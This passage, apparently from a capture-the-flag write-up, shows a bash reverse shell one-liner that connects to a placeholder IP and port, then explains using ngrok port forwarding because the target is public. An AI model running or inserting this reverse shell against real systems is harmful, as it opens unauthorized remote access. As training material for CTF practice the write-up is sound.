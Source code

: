 ```bash
bash -c 'exec bash -i &>/dev/tcp/<IP>/<PORT> <&1'
```

now since this is a public target we can't use our local IP and PORT as we would in a TryHackMe or HackTheBox CTF. So we have to port forward.

I will be using ngrok for port forwarding. You can check my write up [here](https://deusx7.github.io/Posts/CyblackCTF/CyblackCTF.html) . Scroll down till you see the section "Setting up ngrok"

![](attachments/20240722100514.png)
